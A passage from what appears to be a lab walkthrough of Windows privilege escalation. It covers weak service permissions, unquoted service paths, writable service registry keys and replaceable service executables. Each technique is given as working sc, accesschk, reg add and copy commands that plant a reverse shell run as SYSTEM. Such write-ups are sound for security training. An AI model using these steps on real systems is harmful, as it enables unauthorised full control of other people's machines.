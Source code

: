 changing BINARY_PATH_NAME:
``sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""``

Now start the service:
`net start daclsvc`

## Unquoted service Path
Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE\_START\_NAME) and that the BINARY\_PATH\_NAME is unquoted and contains spaces.

`sc qc unquotedsvc`

![](https://i.imgur.com/9aUQogz.png)

Using accesschk.exe, note that the BUILTIN\\Users group is allowed to write to the C:\\Program Files\\Unquoted Path Service\\ directory:

`C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`
![](https://i.imgur.com/UX8uM4j.png)

Copy reverse shell to service path:
`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`

So now start the service 
`net start unquotedsvc`

## Weak Registry Permissions
Query the "regsvc" service and note that it runs with SYSTEM privileges (SERVICE\_START\_NAME).
`sc qc regsvc`

Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\\INTERACTIVE" group (essentially all logged-on users):
`C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`
Overwrite the ImagePath registry key to point to the reverse.exe executable you created:
``reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f``
Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
``net start regsvc``

## Insecure Service Executables

`sc qc filepermsvc`
we can see it has SERVICE_START_NAME privileges

Check If BINARY_PATH_NAME is writable by everyone:
``C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"``

Copy the reverse.exe executable you created and replace the filepermservice.exe with it:
`copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`

Start the service
`net start filepermsvc`
